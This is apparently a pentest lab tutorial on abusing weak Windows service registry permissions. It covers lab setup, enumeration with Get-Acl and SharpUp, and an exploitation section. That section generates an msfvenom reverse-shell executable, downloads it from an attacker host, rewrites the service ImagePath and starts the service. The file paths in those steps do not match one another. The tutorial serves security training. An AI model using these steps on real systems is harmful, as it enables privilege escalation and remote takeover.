 # Weak Registry Permissions

## Table of Contents

- [Weak Registry Permissions](#weak-registry-permissions)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Weak registry permissions represent a vulnerability within the Windows registry resulting from misconfigured access controls. This issue involves specific registry keys or entries having permissions that permit unauthorized users to manipulate or access crucial system configurations. This vulnerability can be exploited by attackers who inject malicious code into registry keys, thus obtaining unauthorized privileged access.

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir "C:\Program Files\CustomSrv4\"
```

2) Download the file [Service4.exe](/Lab-Setup-Binary/Service4.exe) to the 'C:\Program Files\CustomSrv4' directory.

3) Install the new Service:

```
New-Service -Name "Vulnerable Service 4" -BinaryPathName "C:\Program Files\CustomSrv4\Service4.exe" -DisplayName "Vuln Service 4" -Description "My Custom Vulnerable Service 4" -StartupType Automatic
```

4) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 4" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
```

Outcome:

![Weak-Registry-Permissions-Manual-Lab-Setup](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup.png)

5) Open Registry panel with `regedit` command and navigate to 'Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4':

![Weak-Registry-Permissions-Manual-Lab-Setup-2](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-2.png)

6) Right click on "Vulnerable Service 4" and choose the "permissions" option:

![Weak-Registry-Permissions-Manual-Lab-Setup-3](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-3.png)

7) Allow Full Access control on Users and then press "OK" button:

![Weak-Registry-Permissions-Manual-Lab-Setup-4](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-4.png)

### PowerShell Script Lab Setup

To set up the lab with the 'Weak Registry Permissions' vulnerability is by using the custom PowerShell script named [WeakRegistryPermissions.ps1](/Lab-Setup-Scripts/WeakRegistryPermissions.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\WeakRegistryPermissions.ps1
```

Outcome:

![Weak-Registry-Permissions-Script-Lab-Setup](/Pictures/Weak-Registry-Permissions-Script-Lab-Setup-4.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration of the `Weak Registry Permissions` vulnerability, you can use the following steps:

1) Open a Powershell and use the following command to enumerate registry permissions:

```
Get-Acl -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" | fl
```

2) Use the following command to identify the image path of the service:

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4"
```

Outcome:

![Weak-Registry-Permissions-Manual-Enumeration](/Pictures/Weak-Registry-Permissions-Manual-Enumeration.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Weak Registry Permissions` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit ModifiableServiceRegistryKeys
```

Outcome:

![Weak-Registry-Permissions-Tool-Enumeration](/Pictures/Weak-Registry-Permissions-Tool-Enumeration.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service4.exe
```

2) Open a listener in your kali machine.

3) Transfer and overwrite the Service2.exe file with the malicious binary:

```
iwr -Uri http://<ip>:<port>/Service4.exe -Outfile C:\Windows\Tasks\Service4.exe
```

4) Change the image path for service:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Public\Servic4.exe" /f
```

5) Start the service with the following command or reboot the machine:

```
sc start "Vulnerable Service 4"
```

Outcome:

![]